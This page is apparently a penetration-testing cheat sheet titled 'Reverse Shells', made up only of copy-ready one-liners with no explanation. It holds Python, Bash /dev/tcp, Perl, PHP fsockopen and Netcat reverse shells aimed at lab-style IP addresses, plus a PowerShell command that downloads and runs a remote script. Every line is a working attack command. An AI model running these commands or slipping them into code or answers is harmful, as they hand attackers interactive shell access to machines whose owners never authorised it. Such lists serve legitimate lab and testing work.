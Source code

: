```yaml
---
title: "Reverse Shells"
---
```


Python:

<div style="background-color: #f5f5f5; border: 1px solid #ccc; padding: 10px; margin-bottom: 10px; display: inline-block; font-family: 'Courier New', Courier, monospace;  width: 500px; overflow-x: auto;">
  <code>python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.218",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' </code>
</div>

Bash:
<div style="background-color: #f5f5f5; border: 1px solid #ccc; padding: 10px; margin-bottom: 10px; display: inline-block; font-family: 'Courier New', Courier, monospace;">
  <code>bash -i >& /dev/tcp/10.0.0.1/8080 0>&1 </code>
  <code>bash -c "bash -i >& /dev/tcp/192.168.45.183/443 0>&1" </code>
</div>


Perl:
<div style="background-color: #f5f5f5; border: 1px solid #ccc; padding: 10px; margin-bottom: 10px; display: inline-block; font-family: 'Courier New', Courier, monospace; width: 300px; overflow-x: auto;">
  <code>perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};' </code>
</div>

PHP:
<div style="background-color: #f5f5f5; border: 1px solid #ccc; padding: 10px; margin-bottom: 10px; display: inline-block; font-family: 'Courier New', Courier, monospace; width: 300px; overflow-x: auto;">
  <code><?php $sock=fsockopen("192.168.45.218",80);exec("/bin/sh -i <&3 >&3 2>&3"); ?> </code>
  <code><?php $sock=fsockopen("192.168.45.218",80);exec("/bin/sh -i <&3 >&3 2>&3"); ?> </code>
</div>

Netcat:
<div style="background-color: #f5f5f5; border: 1px solid #ccc; padding: 10px; margin-bottom: 10px; display: inline-block; font-family: 'Courier New', Courier, monospace; width: 300px; overflow-x: auto;">
  <code>nc -e /bin/sh 10.0.0.1 1234 </code>
  <code>rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.45.218 1234 >/tmp/f </code>
</div>

Powershell:
<div style="background-color: #f5f5f5; border: 1px solid #ccc; padding: 10px; margin-bottom: 10px; display: inline-block; font-family: 'Courier New', Courier, monospace; width: 300px; overflow-x: auto;">
  <code>powershell -c "iex(new-object net.webclient).downloadstring(\"http://192.168.45.235:1337/Invoke-PowerShellTcp.ps1\")" </code>
</div>
